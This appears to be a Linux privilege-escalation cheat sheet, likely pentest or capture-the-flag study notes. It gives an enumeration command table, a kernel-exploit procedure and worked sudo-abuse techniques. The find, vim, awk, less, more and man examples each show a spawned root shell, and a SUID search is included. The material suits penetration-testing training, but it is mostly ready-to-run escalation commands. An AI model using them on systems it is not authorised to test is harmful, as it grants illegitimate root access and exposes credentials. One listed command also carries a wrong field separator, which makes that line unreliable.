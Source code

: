 - Identifying the system and environment (e.g., `hostname`, `uname -a`, `/etc/issue`)
- Reviewing running processes and permissions (e.g., `ps`, `id`, `sudo -l`)
- Investigating users, files, and history (e.g., `ls -la`, `/etc/passwd`, `history`)
- Exploring the network setup and connections (e.g., `ifconfig`, `netstat`, `ip route`)
- Locating tools, binaries, and sensitive files (e.g., `find`, `env`)

| **Command**                  | **Description**                                                                                              |     |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------ | --- |
| `hostname`                   | Displays system hostname; can hint at machine's role (e.g., SQL-PROD-01).                                    |     |
| `uname -a`                   | Shows detailed system and kernel information.                                                                |     |
| `/proc/version`              | Provides kernel version and compiler info (via procfs). (`cat /proc/version`)                                |     |
| `/etc/issue`                 | Displays OS version (can be customized).(`cat /etc/issue`)                                                   |     |
| `ps -A`, `ps aux`, `ps axjf` | Lists running processes, users, and process trees.                                                           |     |
| `env`                        | Shows environment variables like `PATH` which may include useful binaries.                                   |     |
| `sudo -l`                    | Lists commands the user can run with elevated privileges via `sudo`.                                         |     |
| `ls -la`                     | Lists files in a directory, showing hidden and permission details.                                           |     |
| `id`                         | Displays user ID, group ID, and group memberships.                                                           |     |
| `/etc/passwd`                | Lists system users; useful for enumeration and brute-force targeting. (`cat /etc/passwd \| cut -d "." -f 1`) |     |
| `history`                    | Shows previously executed commands; may expose credentials.                                                  |     |
| `ifconfig`                   | Displays network interfaces and IP addresses.                                                                |     |
| `ip route`                   | Reveals routing table and potential reachable networks.                                                      |     |
| `netstat -a/n/l/tp/s/i`      | Shows open ports, connections, network statistics, and interface data.                                       |     |
| `find`                       | Searches files by name, size, permissions, timestamps, or ownership.                                         |     |
| `find / -perm -u=s`          | Locates files with the SUID bit set (potential privilege escalation).                                        |     |
| `find / -writable -type d`   | Finds world-writable directories.                                                                            |     |
| `find / -name python*`       | Finds installed development tools or interpreters.                

# Kernel Exploit
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system. Ex: [exploit-db](https://www.exploit-db.com/)
3. Run the exploit 

# Sudo 
In order to exploiting sudo users, first you need to find which commands current user is allowed, using the **_sudo -l_** command
```sh
#Example
User andrea may run the following commands on viserion:
 (root) NOPASSWD: /usr/bin/find
 (root) NOPASSWD: /usr/bin/vim
 (root) NOPASSWD: /usr/bin/awk
```

```sh
andrea@viserion:~$ sudo find /etc/passwd -exec /bin/sh \;
# whoami
root
```

or the **-c** paramether of **vim**:

```sh
andrea@viserion:~$ sudo vim -c '!sh'
# whoami
root
```

```sh
Also **awk** allows the invocation of a shell:

andrea@viserion:~$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
```

and **less**, **more** and **man** allows command execution:

 ## MISCELLANEOUS COMMANDS

```sh
-<flag> Toggle a command line option [see OPTIONS below].
 --<name> Toggle a command line option, by name.
 _<flag> Display the setting of a command line option.
 __<name> Display the setting of an option, by name.
 +cmd Execute the less cmd each time a new file is examined.
 **!command Execute the shell command with $SHELL.**
 |Xcommand Pipe file between current pos & mark X to shell command.
 v Edit the current file with $VISUAL or $EDITOR.
 V Print version number of "less".
```
So, simply call:

```sh
sudo less /etc/hosts
# or
sudo more /etc/hosts
# or
sudo man ls
```

Then press _**!sh**_ and hit enter.

# SUID
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
Search info on [GTFOBins](https://gtfobins.github.io)
